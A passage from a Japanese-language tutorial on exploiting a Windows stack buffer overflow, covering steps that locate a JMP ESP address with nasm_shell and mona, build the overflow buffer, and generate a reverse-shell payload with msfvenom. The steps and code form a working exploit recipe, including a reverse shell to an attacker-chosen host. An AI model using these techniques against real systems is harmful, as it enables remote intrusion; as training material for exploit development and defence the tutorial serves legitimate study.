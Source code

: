 メモリ保護スキーム（Rebase、SafeSEH、ASLR、NXCompat）の影響を受けていないかどうかを確認し、特定のDLL（右の列）をメモします。

ステップ9： JMPESP相当=オペコード。

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

結果を次のようにメモします： "\ xff \ xe4"

シェルコードを入れるスタック領域がない場合

スタック領域の先頭にpayloadをセットし、 スタック領域の先頭にジャンプする命令をESP(ときど場合による)にセットする

必ずしも ESP にジャンプするとは限らない

```
kali@kali:~$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ecx
00000000  FFE1              jmp ecx

first_stage = "\xff\xe1"
#filler = "A" * 2080 + "BBBB" + first_stage + "C" * 400
filler = shellcode + "A" * (2080 - int(len(shellcode))) + “EIP” + first_stage + "C" * 30
```

ステップ10： monaを使用して、手順8で見つかったDLL内のJMP ESPメモリアドレスを見つけます。不正な文字を含まないアドレスを使用します。

```
!mona find -s "\xff\xe4" -m <dllname>.dll
```

ステップ11： Immunity Debuggerを一時停止し、アドレスに従います（右向きの黒い矢印：「従うべき表現」）。JMP ESPが見つかったかどうかに注意してください（左上のペイン）。

ステップ12：ブレークポイントを設定して、JMPESPに到達できるかどうかを確認します。 左上のペイン->右クリック->式 に移動左上のペイン->右クリック->ブレークポイント->トグル（F2） 再生し、次の手順を実行します。 PoCに追加します（メモリアドレスは、ステップ10で見つけたもので、リトルエンディアンと記載されています）。

PoCに追加します（メモリアドレスは、ステップ10で見つけたもので、リトルエンディアンと記載されています）。

```
buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
```

PoCを実行し、ブレークポイントがヒットしたかどうかを確認します（Immunity Debuggerの下部にあるメッセージ）。

ステップ13：リバースシェルを生成する

```
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

ステップ14：リバースシェルコードをエクスプロイトに追加し、次のように変更します。

```
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
```

＃必要に応じてNOPスライドを増やす
